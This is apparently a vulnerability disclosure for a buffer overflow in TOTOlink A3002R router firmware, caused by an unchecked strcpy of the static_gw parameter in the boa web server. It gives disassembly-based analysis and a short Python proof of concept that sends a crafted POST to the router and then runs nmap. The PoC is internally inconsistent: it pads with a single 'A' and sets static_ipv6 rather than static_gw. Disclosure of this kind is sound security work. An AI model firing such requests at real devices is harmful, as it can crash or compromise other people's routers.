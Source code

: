 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_gw` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`

![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-16_22-19-45.png)
By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v36` variable is passed to `v50` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_gw` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_gw" data, and `strcpy` copies the string pointed to by `v36` to `v50` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v36` exceeds the size of the `v50` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-16_22-22-03.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_gw` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1&static_ipv6=111{}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
